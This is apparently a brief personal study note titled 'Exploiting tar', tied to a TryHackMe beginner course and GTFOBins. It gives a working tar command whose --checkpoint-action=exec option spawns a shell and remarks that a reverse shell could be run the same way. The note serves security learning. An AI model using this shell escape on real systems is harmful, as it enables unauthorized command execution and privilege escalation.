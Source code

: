 # Exploiting "tar"

author:: Nathan Acks  
date:: 2021-11-02

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null \
    --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)
